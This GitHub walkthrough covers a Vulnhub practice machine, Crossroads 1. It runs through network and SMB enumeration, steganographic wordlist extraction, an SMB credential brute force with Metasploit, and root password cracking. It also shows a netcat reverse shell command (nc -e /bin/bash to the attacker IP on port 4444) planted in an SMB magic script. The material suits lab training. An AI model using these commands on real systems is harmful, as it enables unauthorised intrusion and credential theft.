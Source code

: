 # Walkthrough-Crossroads
Walkthrough vulnhub Crossroads 1  machine

Hi guys, through this write-up we'll be talking about all the different process we walkthrough to capture all the flags of Vulnhub Crossroads1 machine.

The machine can be downloaded on this link https://download.vulnhub.com/crossroads/crossroads_vh.ova.
Concerning the virtualisation engine, I used Virtualbox, of course it's the one that is recommended for this machine.

**Here's is the description given from Vulnhub about the machine:**

* get flags
* difficulty: easy
* about vm: tested and exported from virtualbox. dhcp and nested vtx/amdv enabled. you can contact me by email for troubleshooting or questions.
* This works better with VirtualBox rather than VMware

**Now that all have been said, let's start:**

After starting the machine in virtualbox, we have to look for our target Ip address, so to that we use the command **netdiscover**

![d](https://user-images.githubusercontent.com/63744686/116478438-98007300-a86d-11eb-839f-80d83ad68e55.png)

As you can see on the image, our target Ip address is **192.168.56.107**
but we'll be using as attacker Ip address **192.168.56.108**

Now then, let's poursue by enumerating services and ports that the target machine is running by using **nmap** command

**nmap -A -Pn- 192.168.56.107**

![d1](https://user-images.githubusercontent.com/63744686/116479614-7b653a80-a86f-11eb-94b6-de2fc8c2f305.png)


With the output of nmap command, it's shows that the target machine is running http server and smb server as well.
Knowing that, we'll continue our journey by web enumeration in other to gather more information and see if there isn't some interesting files on the web server.
so to that, we use **dirb** command to check eventuals files that might be stored on the web server

**dirb http://192.168.56.107**

![d2](https://user-images.githubusercontent.com/63744686/116480687-4fe34f80-a871-11eb-9c0d-2877c158a156.png)

So looking on image, it's possible to see that, there are somes files on the web server. While checking the content of the robot.txt file, it's mentioned inside that
the route /crossroad.png is disabled. Of course, our first impression might be to suppose that file should contain the first flag, but looking at it, it's not

![d3](https://user-images.githubusercontent.com/63744686/116487908-a441fb80-a880-11eb-8502-a1c2812943f1.png)

So then, as I said earlier, I first download the file and try to see if it's possible that something was hiden inside. To that I used a python package called **stegoveritas** to extract everthing that the picture might hide. If you do want to install the package stegoveritas on your python environnement, you just have to do **pip3 install stegoveritas** 
and there you go.
**stegoveritas crossroads.png**

![d4](https://user-images.githubusercontent.com/63744686/116488509-0c451180-a882-11eb-9d4e-1fa13ba80b4f.png)

When the file is done extracting, you'll find in your curent directory a new directory created and named **results**. Inside this one, there's another directory named keepers in which there are somes files, and among those files we find a wordlist, with it what we might expect is that soon it should come in handy while try to do a brute force attack.
bellow the wordlist file captured

![d5](https://user-images.githubusercontent.com/63744686/116489113-9e014e80-a883-11eb-92b6-816f0a52ea79.png)

Now let's save this wordlist in our repository

![d6](https://user-images.githubusercontent.com/63744686/116489011-5da1d080-a883-11eb-9570-ecc135123f74.png)

After that, we are sure there is no more interesting thing on the side, we can head to smb server side. There, we start as usually with the smb server enumeration.
First, we'll check the shared directories on the server their access permission by using **smbmap** command

**smbmap -H 192.168.56.107**

![d7](https://user-images.githubusercontent.com/63744686/116489436-7bbc0080-a884-11eb-9199-1c311ef0a597.png)

As we can see on the image, all the shared directories have **no access** permission a guest user. So we have to look for a user who has somehow an access to one of the shared 
directories. To that, we can use **enum4linux** or nmap smb enumeration script, but in my case I used enum4linux to find another user who has access to the smb server. Below the command that used

**enum4linux 192.168.56.107**

![d8](https://user-images.githubusercontent.com/63744686/116489998-ddc93580-a885-11eb-9bb1-e36702fe5d37.png)

The image beyond shows a fragment of the output of enum4linux command, and we can see on it that there's another user called **albert** on the target machine. Knowing that, let's try to find his credentials and enumerate the access he might have on the shared directories. We can use a banch of tools to brute force smb creds but in my case I used metasploit **auxiliary scanner/smb/smb_login**. 
Using the metasploit auxiliary I just mentionned, we must set our options as shown on the image below

![d9](https://user-images.githubusercontent.com/63744686/116490646-6f857280-a887-11eb-9235-918a7d2b89ad.png)

At the of the execution we'll find as result

![d10](https://user-images.githubusercontent.com/63744686/116490749-a9567900-a887-11eb-88bb-b3b1ae50d987.png)

Now that we have the user albert creds, we can try to enumerate the kind of access he has on the shared directories with the command below

**smbmap -H 192.168.56.107 -u albert -p bradley1**

![d11](https://user-images.githubusercontent.com/63744686/116490831-ec185100-a887-11eb-8e58-ebbc670bd6b3.png)

The output of the command shows that the user albert has to **smbshare** directory with the permissions **Read and Write**, and had access on his local directory with the permission **Read only**

So then let's have access to his local directory and check what's inside

**smbmount //192.168.56.107/albert smb -o username=albert**

![d12](https://user-images.githubusercontent.com/63744686/116491274-07379080-a889-11eb-9ea4-2ac60181188f.png)

Inside the local directory of albert, is a file called **user.txt** which contain our first flag

![d13](https://user-images.githubusercontent.com/63744686/116491371-39e18900-a889-11eb-9d37-9225856b34c9.png)

While having a look to the smbshare directory, we notice that there is a smb.conf file inside. Looking at it, it's mentionned in the smbshare configuration that a user albert might be able to execute a magic script called **smbscript.sh**

![d14](https://user-images.githubusercontent.com/63744686/116491828-516d4180-a88a-11eb-8871-3e9c235223f7.png)

Knowing that, we can take advantage of it to create a **reverse TCP shell** and have an access to target machine. For that, all we have to do is used **netcat** command and create a reverse shell to the attacker machine, by simply puting in the smbscript.sh this line below

**echo nc -e /bin/bash 192.168.56.108 4444 > smbscript.sh** (we shoud mentionned that the Ip address here is the Ip of the attacker machine)

![d15](https://user-images.githubusercontent.com/63744686/116492301-744c2580-a88b-11eb-9aa5-2d0ad79fb51a.png)

Before sending the payload to target machine, we have to start listening on the port we mentionned in the smbscript.sh, using the command **nc -lvp 4444**.
After that, we are ready to go!!

![d16](https://user-images.githubusercontent.com/63744686/116492547-094f1e80-a88c-11eb-887c-daac03023fb2.png)

On the attacker server we'll have this

![d17](https://user-images.githubusercontent.com/63744686/116492635-4c10f680-a88c-11eb-889a-57f13ade122f.png)

The command that is highlighted on the is used to gain a stable shell terminal on our machine.

By checking the local directory of the user albert, we can see there's a script called **beroot**, when we execute that script, it's ask to us to enter a password for the root. 
Here is where we'll use the wordlist we retrieved form the crossroads image to brute force the script beroot. I write for that a small script to brute the script, which I put on this repository for those who are interested.

To upload the script and the wordlist on the target machine, we just have to use a python module http.Server to create a local http server and then use wget tool to download it on the target machine. Know that you'll have to process a little bit your wordlist before using it in the script or rather use the wordlitst I put on this repository

![sc](https://user-images.githubusercontent.com/63744686/116493430-487e6f00-a88e-11eb-8f9d-e6d2a83ffc1d.png)

Now let's execute the script we just downloaded and crack the beroot script

![sc1](https://user-images.githubusercontent.com/63744686/116494533-87152900-a890-11eb-91e4-b475333eef0f.png)

Everything we have to do now and find the second and last flag of this machine, is to follow the instruction given to at the end of the cracking 

![sc2](https://user-images.githubusercontent.com/63744686/116494634-c2175c80-a890-11eb-90e0-ffe300ca5f8c.png)


Here is the end of this walkthrough, I hope you guys enjoyed it. Thank you for reading!!!

